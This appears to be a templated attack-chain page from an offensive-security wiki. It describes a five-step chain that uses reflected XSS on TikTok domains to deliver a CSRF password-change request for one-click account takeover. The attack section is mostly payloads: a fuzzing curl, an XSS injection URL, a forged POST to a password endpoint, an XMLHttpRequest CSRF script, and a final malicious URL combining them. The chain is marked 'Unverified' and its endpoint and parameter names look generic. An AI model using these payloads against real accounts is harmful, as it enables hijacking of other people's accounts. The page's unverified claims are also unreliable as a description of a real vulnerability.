

# Chained Reflected XSS and CSRF for TikTok Account Takeover

Multi-stage attack chain demonstrating a complete attack workflow exploiting reflected XSS in URL parameters on www.tiktok.com and m.tiktok.com, combined with a CSRF vulnerability in the password reset endpoint for third-party signup accounts, leading to one-click account takeover and potential data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Target OS/Platform: Web
- Required services/ports: TikTok web application (HTTPS)
- Network access requirements: Access to www.tiktok.com and m.tiktok.com

### Initial Access Requirements

- Credential requirements: None initially, but target must have a third-party signup account
- Network position: External access to public-facing web application
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Discover Reflected XSS Vulnerability - [[procedures/Discover-Reflected-XSS-Vulnerability]]

**Procedure**: [[procedures/Discover-Reflected-XSS-Vulnerability]]

**Objective**: Identify a URL parameter that reflects input without sanitization, enabling JavaScript injection.

**Expected Output**: Confirmation of a vulnerable parameter that echoes input directly.

**Success Indicators**:
- Parameter reflects input in the page source
- Basic payloads like <script>alert(1)</script> execute

First, use [[commands/fuzz-url-parameter]] to test parameters:

```bash
# Use Burp Suite Intruder or a custom script to fuzz parameters
curl "https://www.tiktok.com/?param=test" -s | grep test
```

Validate reflection without sanitization.

### Step 2: Exploit Reflected XSS - [[procedures/Exploit-Reflected-XSS]]

**Procedure**: [[procedures/Exploit-Reflected-XSS]]

**Objective**: Inject and execute arbitrary JavaScript via the vulnerable parameter.

**Expected Output**: Successful execution of injected JavaScript in the victim's browser.

**Success Indicators**:
- Alert box or console log from payload
- Ability to exfiltrate data like cookies

Inject the payload using [[commands/inject-xss-payload]]:

```bash
# Craft URL with XSS payload
https://www.tiktok.com/?param=<script>alert('XSS')</script>
```

Observe execution in a browser.

### Step 3: Identify CSRF Vulnerability - [[procedures/Identify-CSRF-Vulnerability]]

**Procedure**: [[procedures/Identify-CSRF-Vulnerability]]

**Objective**: Find an endpoint lacking CSRF protection for password changes on third-party accounts.

**Expected Output**: Identification of vulnerable endpoint allowing unauthorized requests.

**Success Indicators**:
- Successful password change without token
- No anti-CSRF measures detected

Test the endpoint with [[commands/test-csrf-endpoint]]:

```bash
curl -X POST "https://www.tiktok.com/api/password/set" -d "new_password=attacker123" --cookie "session_cookie=value"
```

Confirm if request succeeds cross-origin.

### Step 4: Craft CSRF Payload - [[procedures/Craft-CSRF-Payload]]

**Procedure**: [[procedures/Craft-CSRF-Payload]]

**Objective**: Create JavaScript to trigger the CSRF request for password change.

**Expected Output**: Functional JS payload that sends the password change request.

**Success Indicators**:
- Payload initiates POST request to endpoint
- Password change occurs on execution

Develop the payload and test with [[commands/execute-csrf-payload]]:

```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://www.tiktok.com/api/password/set');
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('new_password=attacker123');
```

### Step 5: Chain XSS and CSRF for Account Takeover - [[procedures/Chain-XSS-and-CSRF-for-Account-Takeover]]

**Procedure**: [[procedures/Chain-XSS-and-CSRF-for-Account-Takeover]]

**Objective**: Inject the CSRF payload via XSS for one-click takeover.

**Expected Output**: Victim's account password changed upon visiting malicious URL.

**Success Indicators**:
- Account takeover confirmed by logging in with new password
- Potential data exfiltration via additional JS

Combine by injecting into XSS vector:

```bash
# Malicious URL
https://www.tiktok.com/?param=<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://www.tiktok.com/api/password/set'); xhr.send('new_password=attacker123');</script>
```

## Attack Chain Summary

### Key Achievements

1. Discovery of unsanitized URL parameter for XSS
2. Identification of CSRF in password endpoint
3. Successful chaining for account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Persistence]]

---

*Last updated: [TIMESTAMP]*
